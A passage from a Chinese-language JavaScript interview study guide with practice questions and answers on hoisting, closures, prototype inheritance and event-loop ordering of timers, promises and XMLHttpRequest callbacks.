function foo() {
console.log(a, b) // 12 'aaa'
console.log(a, b) // 12 'aaa'
}
foo()
console.log(a, b) // 12 'aaa'
第四题
a = 0
function foo() {
var a = 12;
b = 'aaa'
console.log('b' in window)
console.log(a, b)
}
foo()
console.log(b)
console.log(a)
答案
a = 0
function foo() {
var a = 12;
b = 'aaa'
console.log('b' in window) // true
console.log(a, b) // 12 'aaa'
}
foo()
console.log(b) // 'aaa'
console.log(a) // 0
第五题
function foo() {
console.log(a)
a = 12;
b = 'aaa'
console.log('b' in window)
console.log(a, b)
}
foo()
答案
function foo() {
console.log(a) // Uncaught ReferenceError: a is not defined
a = 12;
b = 'aaa'
console.log('b' in window)
console.log(a, b)
}
foo()
第六题
fn();
console.log(v1);
console.log(v2);
console.log(v3);
function fn() {
var v1 = v2 = v3 = 2019;
console.log(v1);
console.log(v2);
console.log(v3);
}
答案
fn();
console.log(v1); // Uncaught ReferenceError: v1 is not defined
console.log(v2);
console.log(v3);
function fn() {
var v1 = v2 = v3 = 2019;
console.log(v1); // 2019
console.log(v2); // 2019
console.log(v3); // 2019
}
第七题
if (!("value" in window)) {
var value = 2019;
}
console.log(value);
console.log('value' in window);
答案
if (!("value" in window)) {
var value = 2019; // 无论条件判断是否成立，变量声明都会提升到条件语句外层的最上面
}
console.log(value); // undefined
console.log('value' in window); // true
第八题
if (true) {
console.log(print())
function print() {
console.log('aaa')
}
}
console.log(print())
答案
if (true) {
console.log(print()) // 'aaa' undefined
function print() {
console.log('aaa')
}
}
console.log(print()) // 'aaa' undefined
第九题
console.log(a)
console.log(p())
if (true) {
var a = 12
function p() {
console.log('aaa')
}
}
答案
ES6 浏览器环境中，块级作用域中声明函数，表现类似 var 声明，变量提升只会提升函数名 f ，然后赋值 undefined。
console.log(a) // undefined
console.log(p()) // Uncaught TypeError: p is not a function
if (true) {
var a = 12
function p() {
console.log('aaa')
}
}
第十题
var y = 1
if (function f(){}) {
console.log(typeof f)
y = y + typeof f
}
console.log(y)
答案
var y = 1
if (function f(){}) {
console.log(typeof f) // undefined
y = y + typeof f
}
console.log(y) // '1undefined'
第十一题
var fn = 12
function fn() {
console.log('aaa')
}
console.log(window.fn)
fn()
答案
如果变量和函数同名，那么在编译阶段，变量的声明会被忽略。
var fn = 12
function fn() {
console.log('aaa')
}
console.log(window.fn) // 12
fn() // Uncaught TypeError: fn is not a function
第十二题
console.log('1', fn())
function fn() {
console.log(1)
}
console.log('2', fn())
function fn() {
console.log(2)
}
console.log('3', fn())
var fn = 'aaa'
console.log('4', fn())
function fn() {
console.log(3)
}
答案
console.log('1', fn()) // 3 '1' undefined
function fn() {
console.log(1)
}
console.log('2', fn()) // 3 '2' undefined
function fn() {
console.log(2)
}
console.log('3', fn()) // 3 '3' undefined
var fn = 'aaa'
console.log('4', fn()) // Uncaught TypeError: fn is not a function
function fn() {
console.log(3)
}
第十三题
var a = 2;
function a() {
console.log(3);
}
console.log(typeof a);
答案
var a = 2;
function a() {
console.log(3);
}
console.log(typeof a); // number
第十四题
console.log(fn);
var fn = 2019;
console.log(fn);
function fn(){}
答案
console.log(fn); // fn() {}
var fn = 2019;
console.log(fn); // 2019
function fn(){}
第十五题
let a = 0, b = 0;
function fn(a) {
fn = function fn2(b) {
console.log(a, b)
console.log(++a + b)
}
console.log('a', a++)
}
fn(1);
fn(2);
答案
let a = 0, b = 0;
function fn(a) {
fn = function fn2(b) {
console.log(a, b)
console.log(++a + b)
}
console.log('a', a++)
}
fn(1); // 'a' 1
fn(2);
// 2 2
// 5
第十六题
var foo = 'aaa';
(function(f) {
console.log(foo);
var foo = f || 'hello';
console.log(foo)
})(foo);
console.log(foo)
答案
var foo = 'aaa';
(function(f) {
console.log(foo); // undefined
var foo = f || 'hello';
console.log(foo) // 'aaa'
})(foo);
console.log(foo) // 'aaa'
第十七题
var foo = 'aaa';
(function(foo) {
console.log(foo);
var foo = foo || 'world';
console.log(foo)
})(foo);
console.log(foo)
答案
var foo = 'aaa';
(function(foo) {
console.log(foo); // 'aaa'
var foo = foo || 'world';
console.log(foo) // 'aaa'
})(foo);
console.log(foo) // 'aaa'
第十八题
var foo = 'aaa'
function a(foo) {
console.log(foo);
var foo = 1
console.log(foo)
}
a(foo)
答案
var foo = 'aaa'
function a(foo) {
console.log(foo); // 'aaa'
var foo = 1
console.log(foo) // 1
}
a(foo)
第十九题
var foo = 'aaa'
function a() {
console.log(foo);
var foo = 1
console.log(foo)
}
a()
答案
var foo = 'aaa'
function a() {
console.log(foo); // undefined
var foo = 1
console.log(foo) // 1
}
a()
第二十题
var foo = 'aaa';
function a(foo) {
console.log(foo)
function foo () {}
var foo = 1
console.log(foo)
}
a(foo)
答案
var foo = 'aaa';
function a(foo) {
console.log(foo) // function foo() {}
function foo () {}
var foo = 1
console.log(foo) // 1
}
a(foo)
立即执行函数表达式
如果一行代码是以 function 开始的，那么 js 引擎就会将它解析成函数声明语句。
函数声明语句是不能立即调用的，如果在它后面写上圆括号调用，会直接报错。
function a() {}() // Uncaught SyntaxError: Unexpected token ')'
因为圆括号有两种使用方法，一种是写在函数名后表示调用函数，一种是在其中写表达式表示计算表达式的值。
a(); // 函数调用
(1 + 2); // 计算表达式的值
如果作为表达式来写，圆括号里的表达式不能为空，否则会报错。
() // Uncaught SyntaxError: Unexpected token ')'
这就是第一个例子报错的原因，写在函数声明之后的圆括号被认为是一个表达式，如果里面是空的，就会报错。
function a() {}()
// 相当于如下写法
function a() {}
() // 报错
因此只要让 js 引擎认为前面不是函数声明，那么就可以做到函数定义后立即执行了。
var a = function() {}()
+function () {}()
-function () {}()
void function () {}()
;(function() {})()
;(function() {}())
IIFE（Immediately Invoked Function Expression） 的好处是避免了外界访问此 IIFE 中的变量，而且又不会污染全局作用域。如果需要外界使用其中的变量，将变量返回出来即可。
var result = (function () {
var name = "Barry";
return name;
})();
// IIFE 执行后返回的结果：
result; // "Barry"
js 库经常使用 IIFE 来实现模块，这样不会污染全局环境
;(function (global, xxx) {
global.xxx = xxx()
})(this, function () {/* 库的定义，返回一个对象 */})
括号有个缺点，那就是如果上一行代码不写分号，括号会被解释为上一行代码最末的函数调用，产生完全不符合预期，并且难以调试的行为，加号等运算符也有类似的问题。所以一些推荐不加分号的代码风格规范，会要求在括号前面加上分号。
;(function(){}())
闭包
定义
-
一个函数即使创建它的上下文已经销毁，上下文所引用的变量却仍然存在（比如，内部函数从父函数中返回）
-
或者说 在 JavaScript 中，根据词法作用域的规则，内部函数总是可以访问其外部函数中声明的变量，当通过调用一个外部函数返回一个内部函数后，即使该外部函数已经执行结束了，但是内部函数引用外部函数的变量依然保存在内存中，我们就把这些变量的集合称为闭包。比如外部函数是 foo，那么这些变量的集合就称为 foo 函数的闭包。
综上：闭包是指有权访问另一个函数作用域中变量的函数
function f1() {
var n = 999;
function f2() {
console.log(n);
}
return f2;
}
var result = f1();
result(); // 999
由于在 JavaScript 语言中，只有函数内部的子函数才能读取内部变量，因此可以把闭包简单理解成“定义在一个函数内部的函数”。闭包最大的特点，就是它可以“记住”诞生的环境，比如 f2 记住了它诞生的环境 f1，所以从 f2 可以得到 f1 的内部变量。在本质上，闭包就是将函数内部和函数外部连接起来的一座桥梁。
闭包的应用场景
- 去抖节流
- 循环中的定时器，用闭包模拟块级作用域
- 柯里化
- 缓存数据
- 第三方库使用闭包形成私有作用域，防止库中的变量污染全局作用域
题目
第一题
var n = 10
function fn() {
var n = 20
function f() {
n++;
console.log(n)
}
f()
return f
}
var x = fn()
x()
x()
console.log(n)
答案
var n = 10
function fn() {
var n = 20
function f() {
n++;
console.log(n)
}
f()
return f
}
var x = fn() // 打印 21 然后 x 被赋值为 f()
x() // 22
x() // 23
console.log(n) // 10
第二题
var a = 'aaa'
function foo() {
var a = 'foo'
function fo() {
console.log(a)
}
return fo
}
function f(p) {
var a = 'f'
p()
}
f(foo())
答案
var a = 'aaa'
function foo() {
var a = 'foo'
function fo() {
console.log(a) // 打印 'foo'
}
return fo
}
function f(p) {
var a = 'f'
p()
}
f(foo())
第三题
var data = [];
for (var i = 0; i < 3; i++) {
data[i] = function () {
console.log(i);
};
}
data[0]();
data[1]();
data[2]()
答案
var data = [];
for (var i = 0; i < 3; i++) {
data[i] = function () {
console.log(i);
};
}
data[0](); // 3
data[1](); // 3
data[2]() // 3
使用 IIFE 形成闭包解决上面的问题
var data = [];
for (var i = 0; i < 3; i++) {
(function(j){
data[j] = function () {
console.log(j);
}
})(i)
}
data[0]();
data[1]();
data[2]()
或者使用 let 块级作用域
var data = [];
for (let i = 0; i < 3; i++) {
data[i] = function () {
console.log(i);
};
}
data[0]();
data[1]();
data[2]()
第四题
var ary = [1, 2, 3, 4]
function fn(i) {
return function(n) {
console.log(n + (i++))
}
}
var f = fn(10);
f(20);
fn(20)(40);
fn(30)(40);
f(30);
console.log(i)
答案
var ary = [1, 2, 3, 4]
function fn(i) {
return function(n) {
console.log(n + (i++))
}
}
var f = fn(10);
f(20); // 20 + 10 = 30
fn(20)(40); // 40 + 20 = 60
fn(30)(40); // 40 + 30 = 70
f(30); // 30 + 11 = 41
console.log(i) // Uncaught ReferenceError: i is not defined
第五题
以下的代码要实现5个 input 按钮循环绑定 click 点击事件，绑定完成后点击1、2、3、4、5五个按钮分别输出0、1、2、3、4五个字符。问下面的代码能否实现？不能实现，下面的输出效果是怎么样的？怎么修改才能达到想要的效果，说明理由
<div id="btnBox">
<input type="button" value="button_1" />
<input type="button" value="button_2" />
<input type="button" value="button_3" />
<input type="button" value="button_4" />
<input type="button" value="button_5" />
</div>
<script type="text/javascript">
var btnBox = document.getElementById('btnBox'), input = btnBox.getElementsByTagName('input')
var l = input.length
for (var i = 0; i < l; i++) {
input[i].onclick = function(){
alter(i);
}
}
</script>
答案
- 不能实现。点击所有按钮都会 alert 弹出数字 5。
var btnBox = document.getElementById('btnBox'), input = btnBox.getElementsByTagName('input')
var l = input.length
for (var i = 0; i < l; i++) {
(function (j) {
input[j].onclick = function(){
alter(j);
}
})(i)
}
var num = 10
var obj = {
num: 20
}
obj.fn = (function (num) {
this.num = num * 3
num++
return function(n) {
this.num += n
num++
console.log(num)
}
})(obj.num)
var fn = obj.fn
fn(5)
obj.fn(10)
console.log(num, obj.num)
答案
var num = 10 // 60 => 65
var obj = {
num: 20 // 30
}
obj.fn = (function (num) { // 21 => 22 => 23
this.num = num * 3
num++
return function(n) {
this.num += n
num++
console.log(num)
}
})(obj.num)
var fn = obj.fn
fn(5) // 22
obj.fn(10) // 23
console.log(num, obj.num) // 65 30
原型链
new 调用的时候发生了什么
- 以函数的 prototype 为原型创建一个对象。
- 将这个对象赋值给函数内部的this关键字。
- 开始执行构造函数内部的代码。
- 如果函数返回值是对象，则返回这个对象，否则返回第一步创建的对象
下面是 new 命令简化的内部流程：
function _new(/* 构造函数 */ constructor, /* 构造函数参数 */ params) {
// 将 arguments 对象转为数组
var args = [].slice.call(arguments);
// 取出构造函数
var constructor = args.shift();
// 创建一个空对象，继承构造函数的 prototype 属性
var context = Object.create(constructor.prototype);
// 执行构造函数
var result = constructor.apply(context, args);
// 如果返回结果是对象，就直接返回，否则返回 context 对象
return (typeof result === 'object' && result != null) ? result : context;
}
// 实例
var actor = _new(Person, '张三', 28);
什么是原型链
- 每个构造函数都有一个原型对象
prototype，例如：Object.prototype - 原型对象都包含一个指向构造函数本身的指针
constructor，例如：Object === Object.prototype.constructor - 实例都包含一个指向原型对象的内部指针
__proto__，例如：obj.__proto__ === Object.prototype - 当一个构造函数的原型对象
prototype是另外一个原型对象的实例的时候，内部指针__proto__会将这些原型对象串联起来，这就是原型链。
String.prototype.__proto__ === Object.prototype
// String 类型的原型对象的内部指针 __proto__ 指向了 Object 类型的原型对象
如下图所示：
.prototype ┌───────────────────┐ .__proto__
┌───────────────────────────► Array.prototype ├─────────────────────┐ .__proto__ ┌────────┐
│ └──┬────────────────┘ │ ┌───────────────►│ null │
│ .constructor │ │ │ └────────┘
┌────┼──────────────────────────────┘ │ │
│ │ │ │
│ │ │ │
│ │ │ │
┌──────▼──┐ │ ┌─▼─┴──────────────────┐
│ Array ├─┘ ┌─────┤ Object.prototype ◄───────────┐
└─────────┘ │ └──────────────────────┘ │
│ │
│ │
│ │
│ .constructor │
└───────────────────┐ │
│ │
│ │
│ │
│ │
┌────────────▼──┐ .prototype │
│ Object ├─────────────────┘
└───────────────┘
但是所有构造函数都是 Function 类型的对象，拥有 Function 类型的属性和方法，构造函数和 Function.prototype 是什么关系呢？
其实，所有构造函数都有一个内部指针 __proto__ 指向了 Function.prototype，如下图所示：
.prototype ┌───────────────────┐ .__proto__
┌───────────────────────────► Array.prototype ├─────────────────────┐ .__proto__ ┌────────┐
│ └──┬────────────────┘ │ ┌───────────────►│ null │
│ .constructor │ │ │ └────────┘
┌────┼──────────────────────────────┘ │ │
│ │ │ │
│ │ │ │
│ │ │ │
┌──────▼──┐ │ ┌─▼─┴──────────────────┐
│ Array ├─┘ ┌─────┤ Object.prototype ◄───────────┐
└───┬─────┘ │ └────▲─────────────────┘ │
│ │ │ │
│ .__proto__ .__proto__ │ │ │
└───────────────────────────┐ ┌───────────────────────────┼──────────┘ │
│ │ │ │
│ │ │ .constructor │
│ │ └───────────────────┐ │
│ │ │ │
│ │ │ │
│ │ │ │
│ │ │ │
┌──────────┐ .prototype ┌───▼─────────────┴──┐ .__proto__ ┌────────────▼──┐ .prototype │
│ Function ├────────────────► Function.prototype ◄───────────────────────────────┤ Object ├─────────────────┘
└─┬───▲────┘ └──────────────┬──▲──┘ └───────────────┘
│ │ .constructor │ │
│ └────────────────────────────────────┘ │
│ │
│ .__proto__ │
└───────────────────────────────────────────┘
这样就解决了构造函数拥有 Function.prototype 上的属性和方法的问题。查看)
读取对象的某个属性时，JavaScript 引擎先寻找对象本身的属性，如果找不到，就到它的原型去找，如果还是找不到，就到原型的原型去找。如果直到最顶层的Object.prototype还是找不到，则返回undefined。如果对象自身和它的原型，都定义了一个同名属性，那么优先读取对象自身的属性，这叫做“覆盖”（overriding）。
继承
- 构造继承：在子类的构造函数中，调用父类的构造函数
function Sub(value) {
Super.call(this);
this.prop = value;
}
缺点： 只能继承父类实例的属性方法，不能继承父类原型的属性方法（直接给 prototype 设置的属性方法）
- 原型继承：子类的原型等于一个父类实例
Sub.prototype = new Super();
Sub.prototype.constructor = Sub;
缺点：如果父类的实例有引用类型的属性，例如数组或对象，则会被所有子类实例共享。还有一个缺点，实例化时不能向父类构造函数传参。
- 组合继承：组合了构造继承和原型继承
function Sub(value) {
Super.call(this);
this.prop = value
}
Sub.prototype = new Super();
Sub.prototype.constructor = Sub;
缺点：调用了两次父类构造函数
- 寄生组合继承：子类的原型指向父类的原型，这样子类就可以继承父类原型
function Sub(value) {
Super.call(this);
this.prop = value
}
Sub.prototype = Object.create(Super.prototype);
Sub.prototype.constructor = Sub;
// 或者如下：
function Sub (value) {
Super.call(this);
this.prop = value;
}
const F = function () {};
F.prototype = Super.prototype;
Sub.prototype = new F();
Sub.prototype.constructor = Sub;
constructor
在实现继承之后什么时候需要将子类型的 constructor 重新分配为 Sub 呢？
下面这种情况需要重新设置：
function Parent() {};
function CreatedConstructor() {}
CreatedConstructor.prototype = Object.create(Parent.prototype);
CreatedConstructor.prototype.create = function create() {
return new this.constructor();
}
new CreatedConstructor().create().create(); // error undefined is not a function since constructor === Parent
而下面这种情况就不需要了：
function ParentWithStatic() {}
ParentWithStatic.startPosition = { x: 0, y:0 };
ParentWithStatic.getStartPosition = function getStartPosition() {
return this.startPosition;
}
function Child(x, y) {
this.position = {
x: x,
y: y
};
}
Child.prototype = Object.create(ParentWithStatic.prototype);
Child.prototype.constructor = Child;
Child.prototype.getOffsetByInitialPosition = function getOffsetByInitialPosition() {
var position = this.position;
var startPosition = this.constructor.getStartPosition(); // error undefined is not a function, since the constructor is Child
return {
offsetX: startPosition.x - position.x,
offsetY: startPosition.y - position.y
}
};
总结一下就是如果使用了 constructor 属性并且希望获取到的是子类型那么就需要重新设置，否则就不需要。
题目
第一题
function fun() {
this.a = 0
this.b = function() {
alert(this.a)
}
}
fun.prototype = {
b: function() {
this.a = 20
alert(this.a)
},
c: function () {
this.a = 30
alert(this.a)
}
}
var my_fun = new fun()
my_fun.b()
my_fun.c()
答案
function fun() {
this.a = 0
this.b = function() {
alert(this.a)
}
}
fun.prototype = {
b: function() {
this.a = 20
alert(this.a)
},
c: function () {
this.a = 30
alert(this.a)
}
}
var my_fun = new fun()
my_fun.b() // alert 弹出 0
my_fun.c() // alert 弹出 30
第二题
function Fn() {
var n = 10
this.m = 20
this.aa = function() {
console.log(this.m)
}
}
Fn.prototype.bb = function () {
console.log(this.n)
}
var f1 = new Fn
Fn.prototype = {
aa: function() {
console.log(this.m + 10)
}
}
var f2 = new Fn
console.log(f1.constructor)
console.log(f2.constructor)
f1.bb()
f1.aa()
f2.aa()
f2.__proto__.aa()
f2.bb()
答案
function Fn() {
var n = 10
this.m = 20
this.aa = function() {
console.log(this.m)
}
}
Fn.prototype.bb = function () {
console.log(this.n)
}
var f1 = new Fn
Fn.prototype = {
aa: function() {
console.log(this.m + 10)
}
}
var f2 = new Fn
console.log(f1.constructor) // Fn() {}
console.log(f2.constructor) // Object() {}
f1.bb() // undefined
f1.aa() // 20
f2.aa() // 20
f2.__proto__.aa() // NaN
f2.bb() // Uncaught TypeError: f2.bb is not a function
第三题
function Foo() {
getName = function () {
console.log(1)
}
return this
}
Foo.getName = function () {
console.log(2)
}
Foo.prototype.getName = function(){
console.log(3)
}
var getName = function (){
console.log(4)
}
function getName() {
console.log(5)
}
Foo.getName()
getName()
Foo().getName();
getName();
new Foo.getName()
new Foo().getName()
new new Foo().getName()
答案
function Foo() {
getName = function () {
console.log(1)
}
return this
}
Foo.getName = function () {
console.log(2)
}
Foo.prototype.getName = function(){
console.log(3)
}
var getName = function (){
console.log(4)
}
function getName() {
console.log(5)
}
Foo.getName() // 2
getName() // 4
Foo().getName(); // 1
getName(); // 1
new Foo.getName() // 2
new Foo().getName() // 3
new new Foo().getName() // 3
第四题
function Fn() {
var a = 12
this.getName = function() {
console.log('private getName')
}
}
Fn.prototype.getName = function () {
console.log('public getName')
}
var fn = new Fn()
var fn1 = new Fn()
console.log(fn.a)
console.log(fn.getName())
console.log(fn.getName === fn1.getName)
console.log(fn.__proto__.getName === fn1.__proto__.getName)
console.log(fn.__proto__.getName === Fn.prototype.getName)
console.log(fn.hasOwnProperty === Object.prototype.hasOwnProperty)
console.log(fn.constructor === Fn)
答案
function Fn() {
var a = 12
this.getName = function() {
console.log('private getName')
}
}
Fn.prototype.getName = function () {
console.log('public getName')
}
var fn = new Fn()
var fn1 = new Fn()
console.log(fn.a) // undefined
console.log(fn.getName()) // 'private getName'
console.log(fn.getName === fn1.getName) // false
console.log(fn.__proto__.getName === fn1.__proto__.getName) // true
console.log(fn.__proto__.getName === Fn.prototype.getName) // true
console.log(fn.hasOwnProperty === Object.prototype.hasOwnProperty) // true
console.log(fn.constructor === Fn) // true
第五题
Function.prototype.a = () => alert(1);
Object.prototype.b = () => alert(2);
function A() {}
var a = new A();
a.b();
a.a();
答案
先 alert 2 然后报错，a.a is not a function。
事件循环
进程和线程
-
一个进程就是一个程序的运行实例。详细解释就是，启动一个程序的时候，操作系统会为该程序创建一块内存，用来存放代码、运行中的数据和一个执行任务的主线程，我们把这样的一个运行环境叫进程。 -
线程是依附于进程的，而进程中使用多线程并行处理能提升运算效率。 -
进程和线程的关系
- 进程中的任意一线程执行出错，都会导致整个进程的崩溃
- 线程之间共享进程中的数据
- 当一个进程关闭之后，操作系统会回收进程所占用的内存
- 进程之间的内容相互隔离
-
而浏览器运行的时候是多进程的，包括：1 个浏览器（Browser）主进程、1 个 GPU 进程、1 个网络（NetWork）进程、多个渲染进程和多个插件进程。
渲染进程
渲染进程。核心任务是将 HTML、CSS 和 JavaScript 转换为用户可以与之交互的网页，排版引擎 Blink 和 JavaScript 引擎 V8 都是运行在该进程中，默认情况下，Chrome 会为每个 Tab 标签创建一个渲染进程。出于安全考虑，渲染进程都是运行在沙箱模式下
每个渲染进程都有一个主线程，并且主线程非常繁忙，既要处理 DOM，又要计算样式，还要处理布局，同时还需要处理 JavaScript 任务以及各种输入事件。要让这么多不同类型的任务在主线程中有条不紊地执行，这就需要一个系统来统筹调度这些任务，这个统筹调度系统就是我们今天要讲的消息队列和事件循环系统。
事件循环和消息队列
- 所有任务都在主线程上执行。
- 主线程之外，还存在一个消息队列。只要其他任务有了运行结果，就放在消息队列中排队等待执行。例如 输入事件（鼠标滚动、点击、移动）、文件读写、WebSocket、JavaScript 定时器等等。
- 一旦主线程中的所有任务执行完毕，系统就会读取消息队列，看看里面有哪些在排队的任务。那些任务结束等待状态，进入主线程执行栈，开始执行。
主线程不断重复上面的第三步。这就是事件循环和消息队列。
任务和微任务
-
任务（Tasks）就是一段被执行的任意 JavaScript 代码。这些都在 任务队列（task queue）上被调度。例如，一段被直接执行的程序，事件出发后的回调函数，或 setInterval 和 setTimeout 设置的定时器回调。
-
每当一个任务存在，事件循环都会检查该任务是否正把控制权交给其他 JavaScript 代码。如果不需要，事件循环就会运行微任务队列中的所有微任务。如果一个微任务通过调用 queueMicrotask(), 向队列中加入了更多的微任务，则那些新加入的微任务 会早于下一个任务运行 。这是因为事件循环会持续调用微任务直至队列中没有留存的，即使是在有更多微任务持续被加入的情况下。
-
微任务（Microtasks）包括 queueMicrotask 添加的回调函数，promise，MutationObserver 等。
-
消息队列机制并不是太灵活，为了适应效率和实时性，才引入了微任务。
nodejs 中的事件循环
事件循环是 Node.js 处理非阻塞 I/O 操作的机制——尽管 JavaScript 是单线程处理的——当有可能的时候，它们会把操作转移到系统内核中去。
既然目前大多数内核都是多线程的，它们可在后台处理多种操作。当其中的一个操作完成的时候，内核通知 Node.js 将适合的回调函数添加到 轮询 队列中等待时机执行。
下面的图表展示了事件循环操作顺序的简化概览。
// 每个框都是事件循环机制的一个阶段
┌───────────────────────────┐
┌─>│ timers │ // 执行 setTimeout() 和 setInterval() 的回调函数
│ └─────────────┬─────────────┘
│ ┌─────────────┴─────────────┐
│ │ pending callbacks │ // 执行延迟到下一个循环迭代的 I/O 回调
│ └─────────────┬─────────────┘
│ ┌─────────────┴─────────────┐
│ │ idle, prepare │ // 系统内部使用
│ └─────────────┬─────────────┘ ┌───────────────┐
│ ┌─────────────┴─────────────┐ │ incoming: │
│ │ poll │<─────┤ connections, │ // 轮询：检索新的 I/O 事件; 执行与 I/O 相关的回调
│ └─────────────┬─────────────┘ │ data, etc. │ // （几乎所有情况下，除了关闭的回调函数，那些由计时器和 setImmediate() 调度的之外）
│ ┌─────────────┴─────────────┐ └───────────────┘ // 其余情况 node 将在适当的时候在此阻塞
│ │ check │ // 执行 setImmediate() 回调函数
│ └─────────────┬─────────────┘
│ ┌─────────────┴─────────────┐
└──┤ close callbacks │ // 一些关闭的回调函数，如：socket.on('close', ...)
└───────────────────────────┘
每个框都是事件循环机制的一个阶段。每个阶段都有一个 FIFO 队列来执行回调。虽然每个阶段都是特殊的，但通常情况下，当事件循环进入给定的阶段时，它将执行特定于该阶段的任何操作，然后执行该阶段队列中的回调，直到队列用尽或最大回调数已执行。当该队列已用尽或达到回调限制，事件循环将移动到下一阶段。
其中 process.nextTick() 和 promise.then() 将在每个阶段之后立即执行，它们类似浏览器中的微任务定义。
html 规范中的事件循环流程
- 执行宏任务（task）
- 选中一个任务队列为要执行的任务队列，从这个任务队列中取出最早入队的一个 Task，
- 因为任务队列不止一个。以下是规范原文。For example, a user agent could have one task queue for mouse and key events (to which the user interaction task source is associated), and another to which all other task sources are associated. Then, using the freedom granted in the initial step of the event loop processing model, it could give keyboard and mouse events preference over other tasks three-quarters of the time, keeping the interface responsive but not starving other task queues. Note that in this setup, the processing model still enforces that the user agent would never process events from any one task source out of order. 大意：浏览器可以有一个任务队列存储鼠标和键盘事件，而剩余的其他任务则放在另外一个任务队列中。浏览器会在保持任务顺序的前提下，可能分配四分之三的优先权给鼠标和键盘事件，保证用户的输入得到最高优先级的响应，而剩下的优先级交给其他 Task，并且保证不会“饿死”它们。
- 让这个最早的 Task 执行
- 选中一个任务队列为要执行的任务队列，从这个任务队列中取出最早入队的一个 Task，
- 执行微任务（Microtasks）
- 循环微任务队列，执行并清空微任务队列
- 更新渲染
- 判断是否启动空闲时间算法（window.requestIdleCallback()）
- 不断重复以上过程
总结
- 事件循环每轮的 task 执行完成后，不一定都会伴随页面的更新渲染；
- Browsing context rendering opportunities are determined based on hardware constraints such as display refresh rates and other factors such as page performance or whether the page is in the background. Rendering opportunities typically occur at regular intervals. 会根据 Rendering opportunities 来判断每轮事件循环是否需要进行更新渲染，会根据浏览器刷新率以及页面性能或是否后台运行等因素判断的。如果 hasARenderingOpportunity 为 true，需要更新渲染。下面是更新渲染流程：
- 触发 resize、scroll事件，评估媒体查询并且提交变化
- 更新 css 动画
- 执行动画回调（window.requestAnimationFrame 回调）；
- 执行 intersection observations 回调
- 更新渲染；
- Browsing context rendering opportunities are determined based on hardware constraints such as display refresh rates and other factors such as page performance or whether the page is in the background. Rendering opportunities typically occur at regular intervals. 会根据 Rendering opportunities 来判断每轮事件循环是否需要进行更新渲染，会根据浏览器刷新率以及页面性能或是否后台运行等因素判断的。如果 hasARenderingOpportunity 为 true，需要更新渲染。下面是更新渲染流程：
- 事件循环中碰到以下情况会跳过渲染：
- 浏览器判断更新渲染不会带来视觉上的改变
- 有时候浏览器希望两次定时器任务是合并的，他们之间只会穿插着微任务的执行，而不会穿插页面渲染相关的流程。
- map of animation frame callbacks 为空，也就是帧动画回调为空。
题目
第一题
setTimeout(() => {
console.log(1)
}, 20)
setTimeout(() => {
console.log(2)
}, 0)
setTimeout(() => {
console.log(3)
}, 10)
setTimeout(() => {
console.log(5)
}, 10)
console.log(4)
答案
setTimeout(() => {
console.log(1)
}, 20)
setTimeout(() => {
console.log(2)
}, 0)
setTimeout(() => {
console.log(3)
}, 10)
setTimeout(() => {
console.log(5)
}, 10)
console.log(4)
// 4 2 3 5 1
第二题
setTimeout(() => {
console.log(1)
}, 20)
setTimeout(() => {
console.log(2)
}, 0)
setTimeout(() => {
console.log(3)
}, 30)
console.log(4)
答案
setTimeout(() => {
console.log(1)
}, 20)
setTimeout(() => {
console.log(2)
}, 0)
setTimeout(() => {
console.log(3)
}, 30)
console.log(4)
// 4 2 1 3
第三题
let xhr = new XMLHttpRequest()
xhr.open('post', 'api')
xhr.onreadystatechange = () => {
if (xhr.readyState == 2) {
console.log(2)
}
if (xhr.readyState == 4) {
console.log(4)
}
}
xhr.send()
console.log(3)
答案
let xhr = new XMLHttpRequest()
xhr.open('post', 'api')
xhr.onreadystatechange = () => {
if (xhr.readyState == 2) {
console.log(2)
}
if (xhr.readyState == 4) {
console.log(4)
}
/*
0: 请求未初始化
1: 服务器连接已建立
2: 请求已接收
3: 请求处理中
4: 请求已完成，且响应已就绪
*/
}
xhr.send()
console.log(3)
// 3 2 4
第四题
let xhr = new XMLHttpRequest()
xhr.open('get', 'xxx', false)
xhr.send()
xhr.onreadystatechange = () => {
console.log(xhr.readyState)
}
答案
let xhr = new XMLHttpRequest()
xhr.open('get', 'xxx', false)
xhr.send()
xhr.onreadystatechange = () => {
console.log(xhr.readyState)
}
// 没有打印 readyState 因为 open 方法传递第三个参数 async 为 false，所以请求是同步执行的，send()方法直到收到答复前不会返回。
第五题
let xhr = new XMLHttpRequest()
xhr.open('post', 'api')
xhr.onreadystatechange = () =>{
console.log(xhr.readyState)
}
xhr.send()
答案
let xhr = new XMLHttpRequest()
xhr.open('post', 'api')
xhr.onreadystatechange = () =>{
console.log(xhr.readyState)
}
xhr.send()
// 2 3 4
/*
0: 请求未初始化
1: 服务器连接已建立
2: 请求已接收
3: 请求处理中
4: 请求已完成，且响应已就绪
*/
// onreadystatechange 的回调加入到任务队列中等待，xhr.send() 执行后 readyState 变成 1，这时候 onreadystatechange 回调才开始执行，然后打印 2 3 4
第六题
console.log(1)
new Promise((resolve, reject) => {
console.log(2)
resolve()
}).then(res => {
console.log(3)
})
console.log(4)
答案
console.log(1)
new Promise((resolve, reject) => {
console.log(2)
resolve()
}).then(res => {
console.log(3)
})
console.log(4)
// 1 2 4 3
第七题
setTimeout(function () {
console.log(1)
}, 0);
new Promise(function (resolve, reject) {
console.log(2);
resolve();
}).then(function () {
console.log(3)
}).then(function () {
console.log(4)
});
console.log(6);
答案
setTimeout(function () {
console.log(1)
}, 0);
new Promise(function (resolve, reject) {
console.log(2);
resolve();
}).then(function () {
console.log(3)
}).then(function () {
console.log(4)
});
console.log(6);
// 2 6 3 4 1
第八题
setTimeout(function () {
console.log(1)
}, 0);
new Promise(function (resolve, reject) {
console.log(2)
for (var i = 0; i < 10000; i++) {
if (i === 10) {
console.log(10)
}
i == 9999 && resolve();
}
console.log(3)
}).then(function () {
console.log(4)
})
console.log(5);
答案
setTimeout(function () {
console.log(1)
}, 0);
new Promise(function (resolve, reject) {
console.log(2)
for (var i = 0; i < 10000; i++) {
if (i === 10) {
console.log(10)
}
i == 9999 && resolve();
}
console.log(3)
}).then(function () {
console.log(4)
})
console.log(5);
// 2 10 3 5 4 1
第九题
console.log("start");
setTimeout(() => {
console.log("children2")
Promise.resolve().then(() => {
console.log("children3")
})
}, 0)
new Promise(function(resolve, reject) {
console.log("children4")
setTimeout(function() {
console.log("children5")
resolve("children6")
}, 0)
}).then(res =>{
console.log("children7")
setTimeout(() =>{
console.log(res)
}, 0)
})
答案
console.log("start");
setTimeout(() => {
console.log("children2")
Promise.resolve().then(() => {
console.log("children3")
})
}, 0)
new Promise(function(resolve, reject) {
console.log("children4")
setTimeout(function() {
console.log("children5")
resolve("children6")
}, 0)
}).then(res =>{
console.log("children7")
